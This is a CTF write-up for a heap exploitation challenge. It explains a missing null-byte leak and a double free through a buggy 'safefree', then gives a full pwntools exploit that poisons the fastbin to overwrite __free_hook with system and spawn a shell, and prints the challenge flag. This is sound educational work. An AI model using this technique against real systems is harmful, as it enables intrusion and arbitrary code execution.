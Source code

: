 # Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery
![](./chall.png)

# Vulnerabilities
* The binary is using the read function which doesn't append a null-byte at the end of the input string which helps us leak memory addresses.<br>
* the safefree function attempts to free the pointer reference instead of the pointer itself giving us control over an arbitrary free,
which leads us to arbitrary write).<br>

# TL;DR

1 _ consolidate 2 fastchunks and leak heap address.<br>
2 _ consolidate 2 large chunks and leak main_arena address to calculate libc base address.<br>
3 _ double free a fastchunk to poinson the fastbin pointer to point to __free_hook.<br>
4 _ overwrite __free_hook with system address.<br>
5 _ free(bin_sh_pointer) //system("/bin/sh");<br>

# Solution

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./safefree_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['st']

def conn():
    if args.LOCAL:
        r = process(exe.path)
    else:
        r = remote("pwn.ctf.shellmates.club", 1502)

    return r

def allocate(io, size, data):
    io.sendlineafter(b"Choice", b"1")
    io.sendlineafter(b"Size", str(size))
    io.sendlineafter(b"Data", data)

def free(io, index):
    io.sendlineafter(b"Choice", b"2")
    io.sendlineafter(b"Index", str(index))

def safefree(io, index):
    io.sendlineafter(b"Choice", b"3")
    io.sendlineafter(b"Index", str(index))

def view(io, index):
    io.sendlineafter(b"Choice", b"4")
    io.sendlineafter(b"Index", str(index))

def leak(io):
    io.recvuntil(b"Data")
    io.recvline()
    return(u64(io.recvline(keepends=False).ljust(8, b'\0')))

def main():
    r = conn()

    log.info("Leaking heap address")
    
    #filling the tcachebin for size 0x10 and adding 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)
    
    #forcing fastbin consolidation by allocating a large chunk (in the consolidated space from the 2 fastchunks + top chunk)
    allocate(r, 0x410, 'a'*0x1f)

    #leaking fastbin pointer (from previous second fastbins)
    view(r, 0)
    fastbin = leak(r)
    log.info(f"fastbin at: {hex(fastbin)}")

    log.info("Leaking libc address")

    #allocating 2 more large chunks (the third chunk is to prevent consolidation with top chunk, it's size does't matter)
    allocate(r, 0x410, '')
    allocate(r, 0x410, '')

    #consolidation of the first and second large chunks
    free(r, 1)
    free(r, 0)

    #allocating a large chunk of a bigger size (in the consolidated space from the first and second large chunks)
    allocate(r, 0x430, 'a'*0x41f)
    view(r, 0)

    #leaking main_arena pointer (from previous second large chunk)
    libc.address = leak(r) - (libc.symbols['main_arena']+0x60)
    log.info(f"libc base address at: {hex(libc.address)}")

    #freeing all indexes just for simplifiying the exploit
    free(r, 2)
    free(r, 0)
    
    #filling the tcachebin for size 0x10 plus 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)

    #allocating a chunk of a different size (to not mess with tcache)
    allocate(r, 0x20, p64(fastbin+0x10))

    #double freeing the first fastchunk
    safefree(r, 0)

    #allocating 7 chunks to empty tcachebin (and using of them as a pointer argument to '/bin/sh' for system later)
    for i in range(7):
        allocate(r, 0x10, '/bin/sh')

    #poisoning the forward pointer of the double-freed fastchunk to point to __free_hook
    allocate(r, 0x10, p64(libc.symbols['__free_hook']))
    
    #allocating the 2 fastchunks (now __free_hook is at the head of the fastbin of size 0x10)
    for i in range(2):
        allocate(r, 0x10, '')
    
    #allocating a chunk overlaping with __free_hook and overwriting it with system address
    allocate(r, 0x10, p64(libc.symbols['system']))

    #system("/bin/sh");
    free(r, 1)

    r.interactive()

if __name__ == "__main__":
    main()
    #
```
# Flag
`shellmates{M4AAYb3_juSt_STIck_t0_tHE_OLD_WaYS}`

